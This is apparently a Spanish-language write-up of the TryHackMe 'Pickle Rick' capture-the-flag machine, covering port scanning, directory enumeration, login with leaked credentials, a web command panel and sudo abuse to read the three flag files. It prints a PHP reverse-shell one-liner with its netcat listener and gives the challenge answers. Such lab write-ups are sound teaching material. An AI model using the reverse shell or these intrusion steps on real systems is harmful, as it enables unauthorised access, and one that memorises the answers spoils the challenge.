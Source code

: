 [[Writeups]]
 #Writeups
Vamos con la maquina de Pickle Rick, una maquina de tryhackme muy curiosa, os muestro el enunciado que nos da la web antes de ponernos manos a la obra:

![](https://i.imgur.com/o9pyhyU.jpg)  

This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

## Preguntas a responder: 

-----

What is the first ingredient that Rick needs?  


What is the second ingredient in Rick’s potion?  


What is the last and final ingredient?  

-----

Empezamos con un mapeo de todos los puertos por nmap:

```bash
❯ nmap -p- --min-rate 5000 -Pn 10.10.142.14
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 11:34 CEST
Nmap scan report for 10.10.142.14
Host is up (0.052s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 18.16 seconds
```

Ahora hacemos un escaneo mas completo a los puertos encontrados:

```bash
❯ nmap -p22,80 -sCV -Pn 10.10.142.14
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 11:36 CEST
Nmap scan report for 10.10.142.14
Host is up (0.057s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c9:f6:10:24:1d:cf:07:a4:3c:1f:e3:06:7f:f4:64:8b (RSA)
|   256 b0:9d:20:7f:58:4f:ce:b5:cc:e0:8f:e2:60:05:65:3a (ECDSA)
|_  256 3d:53:81:7c:09:64:65:82:af:6a:1d:16:8c:52:02:92 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.17 seconds
```

con todo esto vamos a empezar por el servicio http y la web que aloja en el apache.

en el codigo fuente de la web vemos este body:


``` html
<body> 
	<div class="container"> 
	<div class="jumbotron"></div> 
		<h1>Help Morty!</h1></br> 
		<p>Listen Morty... I need your help, I've turned myself into a pickle   again and this time I can't change back!</p>
		</br> <p>I need you to <b>*BURRRP*</b>....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is, I have no idea what the <b>*BURRRRRRRRP*</b>, password was! Help Morty, Help!</p></br> 
		
		</div> 
		
		<!-- Note to self, remember username! Username: R1ckRul3s --> 

</body>
```

nos guardamos el username: R1ckRul3s

Intenté hacer un ataque de fuerza bruta con hydra al ssh pero el servicio no me dejaba por lo que continué centrándome en la web.

Buscamos el archivo robots.txt y enontramos esto:

**Wubbalubbadubdub**

hacemos una enumeración de directorios con gobuster, esta vez añadimos la flag -x para encontrar directorios con extensiones de archivo como php:

```bash
❯ gobuster dir -u http://10.10.142.14 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt,json,xml
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.142.14
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              xml,php,html,txt,json
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882]
/assets               (Status: 301) [Size: 313] [--> http://10.10.142.14/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
Progress: 10490 / 1323360 (0.79%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 10496 / 1323360 (0.79%)
===============================================================
Finished
===============================================================
```

accedemos a la pagina login.php, me mostro una web de logueo, probé loguearme con el usuario R1ckRul3s y la pass: Wubbalubbadubdub y entre a este panel:

![Pasted image 20240514115345.png](assets/PanelRick.png)

aqui podemos introducir comandos a una shell, hice un -ls -la y mostró varios archivos:

```bash
total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```
aquí podemos obtener el primer ingrediente, con un **cat Sup3rS3cretPickl3Ingred.txt** no nos deja obtener el resultado así que usé el comando less y obtenemos el primer ingrediente:
```bash
less Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
```
 la primera pregunta queda respondida : 
 
 **What is the first ingredient that Rick needs?**
 
 Respuesta: **mr. meeseek hair**

después de esto intento hacer una reverse shell para un manejo mas cómodo:
tras unas pruebas consigo que me funcione con este one-liner rev: 

**php -r '$sock=fsockopen("10.9.251.231",1234);exec("/bin/bash <&3 >&3 2>&3");'**

y obtengo acceso:
```
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.251.231] from (UNKNOWN) [10.10.142.14] 33970
whoami
www-data

```

hago un tratamiento de la tty y empiezo con una pequeña enumeración para ver que permisos de sudo tenemos y sorpresa:

```bash
www-data@ip-10-10-142-14:/var/www/html$ sudo -l
Matching Defaults entries for www-data on ip-10-10-142-14:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-142-14:
    (ALL) NOPASSWD: ALL
```
tenemos permisos para todo.

vemos el archivo clue.txt que se muestra en el mismo directorio que el primer ingrediente y nos dice que sigamos buscando por el sistema.

En la carpeta de rick encontramos el segundo ingrediente:
```bash
www-data@ip-10-10-142-14:/home$ cd rick
www-data@ip-10-10-142-14:/home/rick$ ls -la
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019  .
drwxr-xr-x 4 root root 4096 Feb 10  2019  ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 'second ingredients'
www-data@ip-10-10-142-14:/home/rick$ cat second\ ingredients 
1 jerry tear
www-data@ip-10-10-142-14:/home/rick$ 
```

**What is the second ingredient in Rick’s potion?**
Respuesta: **1 jerry tear**

ahora intenté entrar al directorio de root pero no me dejaba así que probé varios métodos 
```bash
www-data@ip-10-10-142-14:/$ cd root
bash: cd: root: Permission denied
www-data@ip-10-10-142-14:/$ sudo cd root
sudo: cd: command not found
www-data@ip-10-10-142-14:/$ ls root
ls: cannot open directory 'root': Permission denied
www-data@ip-10-10-142-14:/$ sudo ls root
3rd.txt  snap
www-data@ip-10-10-142-14:/$ 
www-data@ip-10-10-142-14:/$ sudo less root/3rd.txt
# y pude visualizar el tercer ingrediente

3rd ingredients: fleeb juice
```

**What is the last and final ingredient?**
Respuesta: **fleeb juice**

Con esto concluimos la maquina.